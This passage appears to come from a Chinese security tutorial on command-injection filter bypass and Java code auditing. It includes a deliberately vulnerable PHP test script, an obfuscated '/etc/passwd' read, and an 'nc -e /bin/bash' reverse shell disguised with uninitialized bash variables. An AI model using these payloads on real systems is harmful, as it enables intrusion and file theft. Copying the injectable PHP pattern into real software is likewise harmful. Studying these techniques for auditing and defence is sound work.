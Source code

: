

#### 3.未初始化的bash变量

在bash环境中允许我们使用未初始化的bash变量，如 $a ,$b,$c

未初始化的变量值都是`null`

```bash
# 读取/etc/passwd:
cat$a /etc$a/passwd$a
```

![读取成功](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220118110911969.png)



```php
#测试WAF
#测试代码：
<?php
    echo "OK";
    system('dig'.$_GET['host']);
?>
```



```bash
www.baidu.com;$s/bin$s/which$s nc$s

# 反弹shell:
/bin$s/nc$s -e/bin$s/bash$s 2130706433 3737
```







## Java代码审计

### 常用方法

Java中可以执行系统命令的函数有：

#### 1.`Runtime.getRuntime.exec()`

```java
Runtime runtime = Runtime.getRuntime();
Process process = runtime.exec(command);
```



exec的使用方式有以下六种：

```java
// 在单独的进程中执行指定的字符串命令
public Process exec(String command)
    
// 在单独的进程中执行指定的命令和参数
public Process exec(String[] cmdarray)

// 在具有指定环境的单独进程中执行指定的命令和参数
public Process exec(String[] cmdarray, String[] envp)
    
// 在具有指定环境和工作目录的单独进程中执行指定的命令和参数
public Process exec(String[] cmdarray, String[] envp, File dir)
    
 
// 在具有指定环境的单独进程中执行指定的字符串命令
public Process exec(String command, String[] envp)
```